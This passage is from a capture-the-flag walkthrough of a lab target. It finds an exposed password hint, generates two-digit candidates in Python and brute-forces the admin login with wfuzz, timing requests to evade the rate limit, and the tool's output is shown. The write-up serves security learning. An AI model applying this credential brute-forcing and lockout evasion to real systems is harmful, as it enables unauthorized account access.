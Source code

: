 I looked at the [/~files/](http://target.thm/~files/) folder Gobuster found. Directory indexing was on and it showed the [pass.txt](http://target.thm/~files/pass.txt) file mentioned in the earlier note. 

![~files](/assets/images/2021/07/SafeZone/IndexOfFiles.png "~files")

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "
```

So the admin password was two times the word admin with two digits in between. That's gave me only 100 possibilities to brute force. 

I wrote a small Python script to generate all the numbers from 0 to 99. 

```python
for i in range(100):
    print("{:02d}".format(i))
```

And then I used wfuzz to try them all. However I still had the rate limiting issue to deal with. I first tried to wait 30 seconds between attempts, using the `-s` parameter. But that was too slow. Since I had three attempts before getting blocked for 60 seconds I thought I might get away with 20 seconds wait.

```bash
$ python generateNumbers.py > numbers.txt

$ wfuzz -c -z file,numbers.txt -t1 -s 20 -d "username=admin&password=adminFUZZadmin&submit=Submit" "http://target.thm/index.php"

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://target.thm/index.php
Total requests: 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        46 L     132 W      2430 Ch     "00"
000000002:   200        46 L     132 W      2430 Ch     "01"
000000003:   200        46 L     135 W      2428 Ch     "02"
000000004:   200        46 L     135 W      2428 Ch     "03"
000000005:   200        46 L     135 W      2428 Ch     "04"
000000006:   200        46 L     135 W      2428 Ch     "05"
...
0000000XX:   200        49 L     129 W      2445 Ch     "XX"
```
